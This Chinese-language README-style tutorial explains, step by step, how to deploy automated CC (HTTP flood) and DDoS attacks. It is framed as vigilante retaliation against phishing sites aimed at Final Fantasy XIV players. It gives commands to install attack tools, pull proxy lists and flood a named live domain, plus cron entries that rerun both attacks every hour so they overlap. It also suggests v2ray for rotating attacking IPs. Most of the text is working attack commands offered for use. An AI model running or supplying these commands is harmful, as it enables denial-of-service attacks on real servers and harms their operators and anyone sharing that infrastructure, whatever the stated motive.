 # Nyaa:Automata
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```
## 获取Proxy-List的socks4喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
cd ..
```

- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
30 * * * * python3 ~/overload/overload_p.py
```

- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
*    *    *    *    *
|    |    |    |    |
|    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
|    |    |    +---------- 月份 (1 - 12) 
|    |    +--------------- 一个月中的第几天 (1 - 31)
|    +-------------------- 小时 (0 - 23)
 +------------------------- 分钟 (0 - 59)
```
- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
